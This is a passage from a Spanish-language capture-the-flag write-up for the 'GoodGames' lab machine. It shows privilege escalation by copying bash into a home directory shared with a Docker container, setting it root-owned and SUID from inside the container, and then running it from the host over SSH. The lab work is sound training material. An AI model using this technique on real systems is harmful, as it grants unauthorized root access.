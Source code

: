 Todo lo que creamos en la maquina real como **augustus** se ve reflejado en el contenedor lo que podemos hacer es copear la `Bash` a nuestro directorio y desde el contenedor como estamos como **root** asignarle privilegios **SUID** y hacer propietario a **root** ala **bash** para desde la shell con **SSH** como **augustus** hacer un **./bash -p** por que podemos ver reflejado lo que hagamos en la maquina real y en el contenedor en ese directorio

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls -la
total 1232
drwxr-xr-x 2 augustus augustus    4096 Jul  6 02:10 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwxr-xr-x 1 augustus augustus 1234376 Jul  6 02:10 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Jul  5 23:15 user.txt
augustus@GoodGames:~$ 
```

Ahora vamos al contenedor otra vez para asignarle el usuario y grupo **root:root** ala **bash** y privilegios **SUID** 

```bash
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# ls -l 
total 1212
-rwxr-xr-x 1 1000 1000 1234376 Jul  6 01:10 bash
-rw-r----- 1 root 1000      33 Jul  5 22:15 user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# ls -l
total 1212
-rwxr-xr-x 1 root root 1234376 Jul  6 01:10 bash
-rw-r----- 1 root 1000      33 Jul  5 22:15 user.txt
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
root@3a453ab39d3d:/home/augustus# ls -l
total 1212
-rwsr-xr-x 1 root root 1234376 Jul  6 01:10 bash
-rw-r----- 1 root 1000      33 Jul  5 22:15 user.txt
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul  6 02:06:32 2023 from 172.19.0.2
augustus@GoodGames:~$ 
```
